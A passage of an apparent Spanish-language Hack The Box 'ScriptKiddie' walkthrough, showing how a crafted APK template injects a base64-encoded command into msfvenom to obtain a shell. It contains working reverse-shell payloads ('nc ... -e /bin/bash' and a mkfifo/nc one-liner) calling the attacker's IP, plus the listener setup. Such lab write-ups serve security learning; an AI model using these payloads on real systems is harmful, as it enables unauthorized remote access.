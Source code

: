 Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y ejecutamos el script para que nos genere el `.apk` malicioso con el que posteriormente ejecutaremos el proceso en la web:

```bash
❭ python3 msfvenom_APK.py 
[+] Manufacturing evil apkfile
Payload: nc 10.10.14.47 4433 -e /bin/bash
-dname: CN='|echo bmMgMTAuMTAuMTQuNDcgNDQzMyAtZSAvYmluL2Jhc2g= | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.

[+] Done! apkfile is at /tmp/tmp6ns2_i9t/evil.apk
Do: msfvenom -x /tmp/tmp6ns2_i9t/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Perfecto, ahora (como dice al final) plasmemos la ejecución pero en la web:

![314page5000_msfVrun](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314page5000_msfVrun.png)

Entonces si lo comparamos con la ejecución por Shell, cada campo equivale a:

* **-x**: El archivo `APK` malicioso (donde podemos subir el template).
* **LHOST**: Debe ser `localhost`, ya que queremos ejecutar los comandos en la máquina para que desde ahí nos genere la Reverse Shell.

Damos en `generate`:

Pero en la web obtenemos `Something went wrong`. Así que probablemente sea que estamos con el binario `nc` que no soporta el argumento `-e`, intentémoslo con ese binario:

* [Reverse Shell Cheat Sheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).

```py
...
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.47 4433 >/tmp/f'
...
```

Ejecutamos script y obtenemos:

![314bash_revSHapkfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314bash_revSHapkfile.png)

Una Shell como el usuario `kid`, perfecto. Antes de seguir volvamos nuestra Shell una <<Shell>> completamente interactiva, para que podamos movernos entre comandos, regresar histórico, hacer `CTRL + C` sin miedo a perder la sesión y para estar más cómodos.
